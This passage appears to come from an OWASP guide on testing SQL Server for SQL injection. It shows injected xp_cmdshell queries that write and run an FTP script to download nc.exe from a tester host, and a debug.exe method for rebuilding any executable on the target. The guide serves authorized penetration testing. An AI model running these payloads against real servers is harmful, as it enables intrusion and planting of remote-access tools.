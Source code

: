 
Of course, the error message is not always available. If that is the case, we can use the response time to understand what is going on: with a closed port, the timeout (5 seconds in this example) will be consumed, whereas an open port will return the result right away.

Keep in mind that OPENROWSET is enabled by default in SQL Server 2000 but disabled in SQL Server 2005.


### Example 8: Upload of executables

Once we can use xp_cmdshell (either the native one or a custom one), we can easily upload executables on the target DB Server. A very common choice is netcat.exe, but any trojan will be useful here.
If the target is allowed to start FTP connections to the tester's machine, all that is needed is to inject the following queries:
```
exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--
```


At this point, nc.exe will be uploaded and available.
<br>

If FTP is not allowed by the firewall, we have a workaround that exploits the Windows debugger, debug.exe, that is installed by
default in all Windows machines. Debug.exe is scriptable and is able to create an executable by executing an appropriate script file. What we need to do is to convert the executable into a debug script (which is a 100% ASCII file), upload it line by line and finally call debug.exe on it. There are several tools that create such debug files (e.g.: makescr.exe by Ollie Whitehouse and dbgtool.exe by toolcrypt.org). The queries to inject will therefore be the following:
```
exec master..xp_cmdshell 'echo [debug script line #1 of n] > debugscript.txt';--
exec master..xp_cmdshell 'echo [debug script line #2 of n] >> debugscript.txt';--
....
exec master..xp_cmdshell 'echo [debug script line #n of n] >> debugscript.txt';--
exec master..xp_cmdshell 'debug.exe < debugscript.txt';--
```


At this point, our executable is available on the target machine, ready to be executed. There are tools that automate this process, most notably Bobcat, which runs on Windows, and Sqlninja, which runs on Unix (See the tools at the bottom of this page).


### Obtain information when it is not displayed (Out of band)

Not all is lost when the web application does not return any information --such as descriptive error messages (cf. [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection)). For example, it might happen that one has access to the source code (e.g., because the web application is based on an open source software). Then, the pen tester can exploit all the SQL injection vulnerabilities discovered offline in the web application. Although an IPS might stop some of these attacks, the best way would be to proceed as follows: develop and test the attacks in a testbed created for that purpose, and then execute these attacks against the web application being tested.
